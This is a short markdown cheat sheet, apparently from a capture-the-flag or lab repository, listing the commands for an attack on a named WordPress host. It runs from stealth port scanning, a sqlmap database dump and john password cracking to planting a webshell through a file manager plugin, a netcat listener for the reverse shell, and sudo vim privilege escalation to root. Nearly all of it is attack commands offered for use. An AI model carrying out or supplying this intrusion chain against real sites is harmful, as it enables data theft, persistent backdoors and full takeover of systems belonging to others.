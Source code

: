# List of useful commands
This list contains useful commands to use during the attack\

# Port enumeration
Enumerates all the open ports in a stealthier way\
`nmap -sS -sV -vv 10.0.1.1 -p-`

# Dumping database
Dumping the database via SQLi\
`sqlmap -u http://www.quinteflush.org/login.php --forms --dump --dbs --batch`

# Crack the hash
From the database, crack the hash in hope of finding an admin password for wordpress\
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Then login to `http://www.quinteflush.org/wp-admin` via `admin:********`.\
Install a file manager plugin and replace a webpage with a webshell.

# Webshell
Use a listener on 0.0.0.0 with either port 80/tcp, 443/tcp or 53/tcp\
`nc -lvnp 53`\

Go to the edited webpage to trigger the webshell

# Privilege Escalation
First, let's enumerate all what are the sudo rights given to www-data\
`sudo -l`\
\
privilege escalation (gtfobins)\
`sudo vim -c ':!/bin/sh'`\
\
upgrade the shell to interact better with the system\
`python3 -c 'import pty; pty.spawn("/bin/bash")'`